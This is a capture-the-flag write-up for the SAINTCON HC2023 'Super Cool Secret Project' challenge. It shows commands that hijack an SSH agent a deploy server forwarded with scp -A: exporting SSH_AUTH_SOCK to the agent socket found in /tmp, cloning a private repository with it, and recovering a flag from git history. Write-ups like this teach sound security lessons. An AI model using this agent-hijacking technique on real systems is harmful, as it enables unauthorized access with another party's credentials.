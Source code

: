 # Super Cool Secret Project

I built this service to automatically deploy my application to all the servers that want to run it.

All you have to do is provide a SSH username, and host, and I will connect and give you a copy of the app. Please accept my public key.

http://deployserver.youcanhack.me/

![deployserver.youcanhack.me](./deployserver.jpg)

## Solution

We're given access to deployserver which will deploy an application to a server under our control. A public SSH key is provided that we need to add to a user's .ssh/authorized_keys file on our server. This will allow the deployserver to authenticate with our server over ssh. After the public key is added - we provide the username, hostname, port number and then submit the form. After doing so, we see the message '--- SSH Attempted ---'. Let's go take a look at the user's home directory and see if it deployed anything.

```
➜ ls -1
HC2023-SuperCoolSecretProject
```

We see that it did in fact deploy an app called 'HC2023-SuperCoolSecretProject' to our user's home directory. When we change into the directory and list the contents, we see that it's a git repository with a README:

```
➜ cd HC2023-SuperCoolSecretProject && ls -lah
total 20K
drwxr-xr-x. 3 hc hc 4.0K Nov  1 02:10 .
drwx------. 7 hc hc 4.0K Nov  1 02:48 ..
drwxrwxr-x. 8 hc hc 4.0K Nov  1 02:47 .git
-rw-r--r--. 1 hc hc   24 Nov  1 02:10 .gitignore
-rw-r--r--. 1 hc hc   25 Nov  1 02:10 README.md
```

Not much in the README:
```
➜  cat README.md
# SuperCoolSecretProject
```

A quick grep reveals a .flag file is being ignored via the gitignore.
```
➜  HC2023-SuperCoolSecretProject git:(main) grep -R 'flag' .
./.gitignore:.flag
```

Hm, well let's take a look at the git log and see what history exists in version control. It's possible the file was committed to the repo at one point and then was later removed. If that's the case there's a chance it wasn't removed properly from the repo and we may be able to recover it.

```
➜  git log
78aba76 - (grafted, HEAD, origin/main, origin/HEAD, main) oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
```

It looks like zevlag removed a secret from the repo. Perhaps our flag? Let's take a look at the git diff for that commit and see what changed. If we're lucky, he didn't remove it from the repo the proper way and we may be able to see it.

```diff
➜  git show 78aba76
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
diff --git a/README.md b/README.md
new file mode 100644
index 0000000..2308fa5
--- /dev/null
+++ b/README.md
@@ -0,0 +1 @@
+# SuperCoolSecretProject
```

Dang, no flag and there are no other commits. It seems it was removed the proper way. That's good. So.. there must be something else. Let's think about this. Git repositories generally have a 'remote' that specifies where it's hosted and can be fetched and pushed. Perhaps the secret still exists in the remote repository? Let's check and see what this repository's remotes are set to:

```bash
➜  git remote -v
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (fetch)
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (push)
```

Great, that's something. It's hosted on github and has an ssh origin url. That means the repository can be pulled and pushed to over ssh with public key authentication. We know the deployserver used ssh to securely copy the repository onto our server. Let's re-evaluate the commands that were used to do that:

```
git clone --depth 1 {censored URL}
scp -P {port} -rCA ~/SuperCoolSecretProject {user}@{host}:~/HC2023-SuperCoolSecretProject
```

Interesting.. The repository was cloned down with the same user that then securely copied the repository onto our server. In order to clone the repository, the user must have authenticated over ssh since the remote origin urls are ssh urls. Let's take a look at the options that were passed to the `scp` command (`-rCA`) to fully understand what it's doing. The `r` option means copy recursively and the `C` option enables compression which reduces the total bandwidth needed for the transfer. The `A` option doesn't appear to be a valid / documented scp option. However, if you use ssh often, you may know that `-A` is a valid option for `ssh`:

```
-A      Enables forwarding of connections from an authentication agent such as ssh-agent(1).  This can also be specified on a per-host basis in a configuration file.

        Agent forwarding should be enabled with caution.  Users with the ability to bypass file permissions on the remote host (for the agent's UNIX-domain socket) can access the local agent through the forwarded connection.  An attacker cannot obtain key
        material from the agent, however they can perform operations on the keys that enable them to authenticate using the identities loaded into the agent.  A safer alternative may be to use a jump host (see -J).
```

If someone is able to access the forwarded SSH_AUTH_SOCK, they could export it and use it as their own. We may be able to do exactly that. Just from experience, we know SSH_AUTH_SOCK is exported to /tmp by default with the pattern 'ssh-XXXXXXXXXX/agent.%d'. Let's take a look in /tmp on the server and see if the deployserver forwarded it's SSH_AUTH_SOCK:

```
➜  ls -lah /tmp/ssh-ARAGypNoQ0/agent.1303
srwxr-xr-x. 1 hc hc 0 Nov  2 03:12 /tmp/ssh-ARAGypNoQ0/agent.1303
```

Yep! It is. From here.. All we need to do is export SSH_AUTH_SOCK to that path in our environment.

```
➜  export SSH_AUTH_SOCK=/tmp/ssh-ARAGypNoQ0/agent.1303
```

Now let's see if we can use it to authenticate with the remote repository by cloning the repo:

```
➜  git clone git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git SuperCoolSecretProject
Cloning into 'SuperCoolSecretProject'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 12 (delta 1), reused 11 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (1/1), done.
```

Perfect, we were able to. Let's check git history and see if we have more commits than the copy that was uploaded by deployserver

```
➜  git log
e2e18b0 - (HEAD, origin/main, origin/HEAD, main) Whoops (Wed Oct 25 15:42:15 2023 +0000) <zevlag>
78aba76 - oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
fb3e3f5 - add .gitignore (Sat Oct 21 10:32:38 2023 -0600) <zevlag>
d01e7c3 - first commit (Sat Oct 21 10:01:31 2023 -0600) <zevlag>
```

And.. we do! Great, let's inspect each of the commits not in the copied version, and see if we can find the flag.
```diff
➜  git show fb3e3f5
fb3e3f5 - add .gitignore (Sat Oct 21 10:32:38 2023 -0600) <zevlag>

diff --git a/.flag b/.flag
new file mode 100644
index 0000000..a86fbaf
--- /dev/null
+++ b/.flag
@@ -0,0 +1 @@
+flag{YouShouldCheckItOut-whoami.filippo.io}
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
```

And there we have it! It wasn't removed from the remote repository like it should have been, so we were able to recover it. Lesson here is to make sure you remove secrets not only from a local repo, but also from the remote.

